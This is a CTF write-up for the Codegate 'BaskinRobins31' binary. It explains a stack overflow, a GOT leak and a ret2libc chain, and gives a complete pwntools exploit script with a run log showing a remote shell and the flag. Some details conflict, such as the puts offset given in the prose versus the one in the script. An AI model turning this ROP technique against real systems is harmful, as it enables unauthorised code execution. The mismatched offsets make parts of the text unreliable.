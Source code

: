 ```bash
file BaskinRobins31
```
>BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped

this task  involves leaking a libc function’s address from the GOT, and using it to determine the addresses of other functions in libc that we can return to.

The vulnerability is in the your_turn() function, where read() is allowed to write 0x190 (400 bytes) into a 0x96 (150 bytes) buffer
the following code shows the vulnerable part of the function 
```assembly
mov    edx,0x96 ;150 bytes 
mov    esi,0x0 ;fill buffer with 0
mov    rdi,rax ;copy adr of buffer to rdi 
call   0x4006f0 <memset@plt> ;memset(rdi,0,0x96)
```
**The high level solution to exploiting this is as follows:**
1. Leak the address of a library function in the GOT. In this case, we’ll leak puts()’s GOT entry
2. Get libc’s base address so we can calculate the address of other library functions. 
3. Compute system()'s address 
4. Overwrite a GOT entry’s address (puts) with system()’s address
5. Write **/bin/sh** to writeable area , in this case .bss
6. Invoke system("/bin/sh")


**Leaking a libc address** <br>
Grab puts()’s entry in the GOT:

```bash
$ objdump -R BaskinRobins31 |grep "puts"
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
If we can write puts()’s GOT entry back to us,We can do that by overwriting your_turn()’s saved return pointer to setup a ret2plt; in this case, write@plt. 
Since we’re exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). 
So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.<br>
**Get libc’s base address** <br>
Next we need to calculate libc’s base address in order to get the address of any library function, or even a gadget, in libc.
```bash
$ ldd BaskinRobins31 
	linux-vdso.so.1 =>  (0x00007ffc10bb0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8688442000)
	/lib64/ld-linux-x86-64.so.2 (0x00005621769b1000)
```

/lib/x86_64-linux-gnu/libc.so.6 contains the offsets of all the functions available to us in libc. To get puts()’s offset, we can use readelf:

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep "puts"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e030   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782b0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
puts()’s offset is at 0x6e030. Subtracting this from the leaked puts()’s address will give us libc’s base address.
To find the address of any library function, we just do the reverse and add the function’s offset to libc’s base address. 
So to find system()’s address, we get its offset from libc.so.6, and add it to libc’s base address.

**Overwrite a GOT entry’s address**
Now that we can get any library function address, we can do a ret2libc to complete the exploit. 
We’ll overwrite puts()’s GOT entry with the address of system(), so that when we trigger a call to puts(), it will call system(“/bin/sh”) instead


1.    Overwrite puts()’s GOT entry with the address of system() using read@plt.
2.    Write “/bin/sh” somewhere in memory using read@plt. We’ll use 0x602090 since it’s a writable location with a static address.
3.    Set RDI to the location of “/bin/sh” and return to system().

Here is the final exploit 
```python
#!/usr/bin/python

from pwn import * 

#p=process('./BaskinRobins31')
p=remote("ch41l3ng3s.codegate.kr",3131)
puts_off = 0x06f690
system_off = 0x45390
writeable = 0x602090 #.bss
puts_got = 0x00602020
puts_plt = 0x4006c0
mov_3pop = 0x400877
write_plt = 0x4006d0
read_plt = 0x400700

payload = ""
payload += "A"*(176) #Junk
payload += p64(0xcafebabe) #rbp
payload += p64(mov_3pop) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) #rdi
payload += p64(puts_got) #puts@got  => addr to read from 
payload += p64(0x8) #rdx-number of bytes to be written to stdout
payload += p64(write_plt) #write@plt



#Stage 1 :overwrite puts@got with system_adr
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi stdin 
payload += p64(puts_got) #puts@got ==> addr to write to 
payload += p64(0x8) #size to be read
payload += p64(read_plt) #read@plt

#Stage 2 :write /bin/sh to .bss

payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi 
payload += p64(writeable) #rsi adr to write '/bin/sh' to 
payload += p64(0x8) #size to be read from stdin
payload += p64(read_plt) #read@plt


#Stage 3 : set RDI to "/bin/sh" and call system()
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(writeable) #rdi ==>adr of '/bin/sh'
payload += p64(0x1) #junk
payload += p64(0x1) #junk
payload += p64(puts_plt) #puts@got which become system()



p.sendline(payload)
p.recvuntil(":(")
leaked_addr = p.recv(8)
puts_libc=hex(u64(leaked_addr))[:-4]
print "[+] Puts is at :"+puts_libc
libc_base = int(puts_libc,16) - puts_off
print "[+] Libc base is", hex(libc_base)
system_addr = libc_base + system_off
print "[+] System() is at", hex(system_addr)
print "[+] Sending system_addr", hex(system_addr)
p.send(p64(system_addr))
print "[+] Sending '/bin/sh'"
p.send("/bin/sh")
p.interactive(">> ")
#flag{The Korean name of "Puss in boots" is "My mom is an alien"}

```
I’ve commented the code heavily, so hopefully that will explain what’s going on ;) 
```
anisboss@anisboss-PC:/tmp/codegate/pwn$ python exploit.py 
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[+] Puts is at :0x7f4c8f872690
[+] Libc base is 0x7f4c8f803000
[+] System() is at 0x7f4c8f848390
[+] Sending system_addr 0x7f4c8f848390
[+] Sending '/bin/sh'
[*] Switching to interactive mode
\x00\x00>> ls
BaskinRobins31
flag
>> cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
